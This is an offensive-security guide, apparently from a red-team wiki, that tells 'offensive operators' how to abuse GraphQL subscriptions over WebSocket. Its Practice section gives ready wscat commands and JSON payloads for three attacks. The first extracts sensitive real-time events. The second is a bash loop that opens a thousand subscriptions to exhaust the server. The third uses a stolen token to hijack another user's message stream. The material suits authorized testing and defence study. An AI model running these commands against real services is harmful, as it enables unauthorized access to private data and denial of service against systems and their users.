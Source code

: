 ```yaml
---
title: 'Exploiting GraphQL Subscriptions: Subscription Abuse'
description: Learn to exploit GraphQL subscriptions for data extraction, resource
  exhaustion, and more.
keywords:
- GraphQL subscriptions
- WebSocket abuse
- real-time data extraction
- subscription flooding
- event stream manipulation
---
```


# Subscription Abuse

## Context

The objective of this document is to guide offensive operators in exploiting GraphQL subscription mechanisms. This technique capitalizes on the open and persistent nature of WebSocket connections to extract real-time data, manipulate event streams, and exhaust server resources. Before proceeding, operators should be familiar with GraphQL subscription architecture, WebSocket communication basics, and common GraphQL injection techniques.

## Theory

### GraphQL Subscription Mechanisms and Attack Surface

GraphQL subscriptions enable real-time data updates via persistent WebSocket connections. This allows clients to receive updates asynchronously whenever a specified event occurs. However, the persistent nature of these connections increases the attack surface, making them a prime target for abuse and resource exhaustion. Vulnerabilities often arise from a lack of proper rate limiting, authentication, or authorization, making subscription endpoints susceptible to various attacks.

### Abuse Vectors in GraphQL Subscriptions

Attackers can exploit GraphQL subscriptions through several vectors:

- **Subscription Flooding**: Flooding endpoints with a high volume of subscription requests can overwhelm system resources.
- **Hijacking Event Streams**: Unauthorized access to event streams can occur due to weak security measures.
- **Protocol Weakness**: WebSocket connections might bypass traditional HTTP security controls, allowing more stealthy attack execution.
- **Implementation Flaw**: Misconfigured subscription management can allow attackers to access real-time data they are not authorized to view.

### Real-Time Data Extraction and Event Stream Manipulation

Exploiting subscriptions can allow attackers to glean continuous sensitive data without repeated authentication. By subscribing to high-value events, attackers can extract real-time data or manipulate event flows to their advantage.

### Resource Exhaustion via Subscription Flooding

Poorly protected subscription endpoints can be bombarded with requests, depleting server resources and potentially causing a denial of service. Automated tools can facilitate opening numerous concurrent subscriptions, overwhelming the backend infrastructure.

## Practice

### Enumerate and Abuse GraphQL Subscriptions for Real-Time Data Extraction

- **Establish Connection:**
  - Use the following command to connect to the WebSocket:
    ```bash
    wscat -c ws://target/graphql
    ```
- **Initiate Protocol Handshake:**
  - Send a connection initialization payload:
    ```json
    {
      "type": "connection_init",
      "payload": {}
    }
    ```
- **Request Subscription:**
  - Dispatch a subscription query to start receiving sensitive events:
    ```json
    {
      "id": "1",
      "type": "start",
      "payload": {
        "query": "subscription { sensitiveEvent { id data } }"
      }
    }
    ```
- **Monitor Data:**
  - Observe incoming data to capture sensitive information:
    ```json
    {
      "type": "data",
      "id": "1",
      "payload": {
        "data": {
          "sensitiveEvent": {
            "id": "123",
            "data": "secret"
          }
        }
      }
    }
    ```

**Outcome**: Continuous extraction of sensitive real-time data through the subscription channel.

### Subscription Flooding for Resource Exhaustion

- **Run Script:**
  - Deploy the following script to launch multiple subscription requests:
    ```bash
    for i in {1..1000}; do
        wscat -c ws://target/graphql -x '{"type":"connection_init","payload":{}}' -x '{"id":"'$i'","type":"start","payload":{"query":"subscription { ping }"}}' &
    done
    ```

**Outcome**: Server performance degrades or experiences denial of service as resources are exhausted by the flood of subscription requests.

### Subscription Hijacking via Weak Authorization

- **Connect with WebSocket:**
  - Establish a connection with a potentially weak token:
    ```bash
    wscat -c ws://target/graphql
    ```
- **Provide Authorization Token:**
  - Send a connection initialization with a stolen or weak token:
    ```json
    {
      "type": "connection_init",
      "payload": {
        "Authorization": "Bearer attacker_token"
      }
    }
    ```
- **Initiate Unauthorized Subscription:**
  - Subscribe to a different user's message stream:
    ```json
    {
      "id": "2",
      "type": "start",
      "payload": {
        "query": "subscription { userMessages(userId: \"victim\") { message } }"
      }
    }
    ```
- **Receive Unauthorized Data:**
  - Access and view unauthorized real-time messages:
    ```json
    {
      "type": "data",
      "id": "2",
      "payload": {
        "data": {
          "userMessages": {
            "message": "private info"
          }
        }
      }
    }
    ```

**Outcome**: Access to another user's real-time event stream is gained through subscription hijacking.

## Tools

- **wscat**
  
